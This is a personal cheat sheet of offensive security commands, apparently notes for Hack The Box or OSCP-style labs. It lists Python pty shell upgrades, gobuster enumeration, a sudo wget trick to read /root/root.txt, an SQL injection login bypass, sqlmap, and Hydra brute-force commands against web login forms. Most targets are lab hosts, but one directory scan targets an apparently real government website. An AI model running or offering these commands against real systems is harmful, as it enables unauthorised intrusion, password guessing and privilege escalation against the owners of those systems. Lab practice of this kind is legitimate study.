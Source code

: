 ### upgrading shells

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

/bin/sh -i
```
https://www.nickczh.com/upgrading-your-shell/


### gobuster

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

### subdomain enumeration gobuster
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 

### gobuster status code
go buster status code : `gobuster dir -u https://www.jmicc.gov.pk/ -w /usr/share/wordlists/dirb/common.txt -b '403,404'`

using wget to reveal the text as /root/root

sudo wget --input-file /root/root.txt

https://gtfobins.github.io/


### wpscan

wpscan --url https://brainfuck.htb --disable-tls-checks

### for ciphers

https://rumkin.com/tools/cipher/ for ciphers

### sql injection

`sqlmap -r login.req`

sqlinjection try: `admin'-- -`

### Using Hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```

### hacktools extensions

Yuo can use the extension of hacktoools for generating reverse shells

### ansible privilege escalation

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/?ref=nickczh.com



